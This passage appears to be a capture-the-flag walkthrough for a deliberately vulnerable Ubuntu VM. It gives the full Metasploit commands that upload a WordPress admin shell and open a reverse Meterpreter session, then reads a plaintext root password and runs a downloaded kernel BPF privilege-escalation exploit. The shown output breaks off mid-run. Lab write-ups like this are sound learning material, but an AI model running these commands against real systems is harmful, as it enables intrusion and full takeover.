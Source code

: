 ## msfconsole


    msf6 > use exploit/unix/webapp/wp_admin_shell_upload
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username c0rrupt3d_brain
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password 24992499
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 192.168.56.1
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.56.103
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress/
    msf6 exploit(unix/webapp/wp_admin_shell_upload) > run

    [*] Started reverse TCP handler on 192.168.56.1:4444 
    [*] Authenticating with WordPress using c0rrupt3d_brain:24992499...
    [+] Authenticated with WordPress
    [*] Preparing payload...
    [*] Uploading payload...
    [*] Executing the payload at /wordpress/wp-content/plugins/wcaDsZBTaZ/tcHGSTGCvE.php...
    [*] Sending stage (39282 bytes) to 192.168.56.103
    [+] Deleted tcHGSTGCvE.php
    [+] Deleted wcaDsZBTaZ.php
    [+] Deleted ../wcaDsZBTaZ
    [*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.103:35244 ) at 2021-11-24 17:40:54 +0100
    meterpreter > sysinfo
    Computer    : ubuntu-extermely-vulnerable-m4ch1ine
    OS          : Linux ubuntu-extermely-vulnerable-m4ch1ine 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64
    Meterpreter : php/linux
    meterpreter > 



## Get root

    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ cat .root_password_ssh.txt
    willy26
    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r$ su root
    Password: 
    root@ubuntu-extermely-vulnerable-m4ch1ine:/home/root3r# id
    uid=0(root) gid=0(root) groups=0(root)



# Get root by exploit kernel


Download exploit at <https://www.exploit-db.com/download/45010>, compile the program on kali machine and transfert it on the victim's machine.


    www-data@ubuntu-extermely-vulnerable-m4ch1ine:/tmp$ ./45010
    [.] 
    [.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
    [.] 
    [.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
    [.] 
    [*] creating bpf map
    [*] sneaking evil bpf past the verifier
    [*] creating socketpair()
    [*] attaching bpf backdoor to socket
    [*] skbuff => ffff8800338b3200
    [*] Leaking sock struct from ffff88003c39f400
    [*] Sock->sk_rcvtimeo at offset 472
    [*] Cred structure at ffff88003a8d5d80
    [*] UID from cred structure: 33, matches the current: 33
    [*] hammering cred structure at ffff88003a8d5d80